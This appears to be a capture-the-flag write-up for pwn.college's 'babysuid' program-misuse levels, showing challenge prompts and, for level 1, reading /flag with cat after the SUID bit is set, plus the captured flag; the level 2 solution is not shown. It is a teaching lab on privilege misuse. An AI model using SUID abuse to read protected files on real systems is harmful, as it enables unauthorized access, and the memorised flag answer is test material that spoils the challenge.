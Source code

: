 ```yaml
---
sidebar_position: 1
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## level 1

> Lets you directly read the flag!

```
hacker@program-misuse~level1:/$ /challenge/babysuid_level1
Welcome to /challenge/babysuid_level1!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/cat.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level1) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cat!
```

Let's just `cat` the flag.

```
hacker@program-misuse~level1:/$ cat /flag 
pwn.college{wsAxEwjFa6XE29_sqUPYuPmYHNs.01M0EDL4ITM0EzW}
```

&nbsp;

## level 2

> Lets you directly read the flag!

```
hacker@program-misuse~level2:/$ /challenge/babysuid_level2 
Welcome to /challenge/babysuid_level2!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/more.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level2) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/more!
```
